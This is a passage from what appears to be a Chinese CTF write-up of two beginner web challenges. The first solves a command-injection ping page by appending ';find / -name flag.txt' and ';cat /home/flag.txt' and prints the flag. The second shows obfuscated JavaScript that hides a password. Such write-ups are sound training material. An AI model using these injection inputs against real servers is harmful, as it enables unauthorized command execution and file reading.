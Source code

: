 # 0x10 command_execution

题目描述：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

打开网页发现可以直接执行命令，通过`;`可以执行多个命令。

```shell
# 首先找到flag.txt文件的位置
;find / -name flag.txt
# 返回：/home/flag.txt

# 查看flag.txt内容
;cat /home/flag.txt
# 返回：cyberpeace{f48d4d8ec8bc8697ab114c130789493f}
```

# 0x11 simple_js

题目描述：小宁发现了一个网页，但却一直输不对密码。(Flag格式为 Cyberpeace{xxxxxxxxx} )

打开网页，`F12`打开源码，发现js源码。

```js
function dechiffre(pass_enc){
    var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
    var tab  = pass_enc.split(',');
    var tab2 = pass.split(',');
    var i,j,k,l=0,m,n,o,p = "";
    i = 0;
    j = tab.length;
    k = j + (l) + (n=0);
    n = tab2.length;
    for(i = (o=0); i < (k = j = n); i++ ){
        o = tab[i-l];
        p += String.fromCharCode((o = tab2[i]));
        if(i == 5)
            break;
    }
    for(i = (o=0); i < (k = j = n); i++ ){
        o = tab[i-l];
        if(i > 5 && i < k-1)
            p += String.fromCharCode((o = tab2[i]));
    }
    p += String.fromCharCode(tab2[17]); 
    pass = p;return pass;
}
String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));
h = window.prompt('Enter password');
alert( dechiffre(h) );

```
